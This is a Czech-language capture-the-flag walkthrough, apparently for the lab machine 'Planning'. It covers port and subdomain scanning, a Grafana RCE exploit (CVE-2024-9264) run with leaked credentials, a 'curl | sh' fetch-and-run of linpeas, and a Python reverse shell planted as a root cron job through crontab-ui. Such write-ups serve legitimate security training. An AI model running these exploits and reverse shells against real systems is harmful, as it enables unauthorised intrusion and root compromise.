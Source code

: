 # Planning - Walkthrough

![obrazek](https://github.com/user-attachments/assets/b7f1eb65-7e57-40c3-a57f-337c879a620e)

Tento dokument popisuje kroky vedoucí k získání uživatelského a root přístupu na stroji "Planning".

## Fáze 1: Počáteční průzkum a získání User flagu

### 1. Skenování portů (Nmap)

Prvním krokem je kompletní sken všech TCP portů pomocí nmap pro zjištění běžících služeb a jejich verzí. Výstup ukládám do XML souboru pro pozdější použití.

```bash
nmap -p- -A 10.10.11.68 -T4 -oX scan.full
```

### 2. Průzkum webového serveru

Sken ukázal otevřený port 80 (HTTP) s webovým serverem Nginx. Přímý přístup přes IP adresu nefunguje, je tedy nutné použít doménové jméno. Přidáme záznam do souboru `/etc/hosts`.

```bash
# Přidání do /etc/hosts
10.10.11.68 planning.htb
```

### 3. Hledání subdomén (Ffuf)

Pro odhalení případných dalších webových aplikací použijeme ffuf k fuzzingu subdomén (Virtual Hosts).

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Ffuf odhalil subdoménu `grafana.planning.htb`. Přidáme ji do souboru `/etc/hosts`.

```bash
# Aktualizace /etc/hosts
10.10.11.68 planning.htb grafana.planning.htb
```

### 4. Zneužití zranitelnosti v Grafana

Na subdoméně běží stará verze Grafana. Po přihlášení pomocí nalezených přihlašovacích údajů (`admin:0D5oT70Fq13EvB5r`) zjišťujeme, že je verze zranitelná vůči RCE (Remote Code Execution). Použijeme veřejně dostupný exploit pro CVE-2024-9264.

- **Exploit:** [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

Na našem stroji spustíme netcat listener.

```bash
nc -lvnp 9001
```

Poté spustíme exploit a jako cíl zadáme IP a port pro reverzní shell.

```bash
python poc.py --url http://grafana.planning.htb:80 --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.83 --reverse-port 9001
```

Získali jsme shell uvnitř Docker kontejneru a našli přihlašovací údaje pro SSH, které nám umožnily získat user flag.

## Fáze 2: Eskalace privilegií a získání Root flagu

### 1. Průzkum systému (LinPEAS)

Po získání uživatelského přístupu je dalším krokem eskalace privilegií. Pro automatizovaný průzkum systému si na server nahrajeme a spustíme skript `linpeas.sh`.

Na našem stroji spustíme dočasný webový server.

```bash
sudo python3 -m http.server 80
```

Na cílovém serveru stáhneme a spustíme `linpeas.sh`.

```bash
curl 10.10.14.34/linpeas.sh -a | sh
```

### 2. Identifikace vektoru eskalace

LinPEAS odhalil klíčovou informaci: služba `crontab-ui.service` běží pod uživatelem root. Dále pomocí `ss -tlnp` zjistíme, že na localhostu běží služba na portu 8000, což je pravděpodobně webové rozhraní pro crontab-ui.

### 3. Přístup ke službě crontab-ui

Použijeme SSH port forwarding, abychom si službu z localhost:8000 na cílovém serveru zpřístupnili na svém počítači.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```

Po otevření [http://localhost:8000](http://localhost:8000) v prohlížeči a přihlášení nalezeným heslem získáme přístup k webovému rozhraní.

### 4. Zneužití crontab-ui pro Root Shell

Jelikož služba běží jako root, jakýkoliv cron job, který vytvoříme, se spustí s nejvyššími právy. Vytvoříme si reverzní shell.

Na našem stroji opět spustíme netcat listener.

```bash
nc -lvnp 4444
```

Do crontab-ui vložíme nový cron job, který se spustí každou minutu (`* * * * *`) a připojí se zpět na náš listener.

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.34",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

Po chvíli se netcat listener spojí a my získáme shell s právy roota, což nám umožní přečíst root flag.
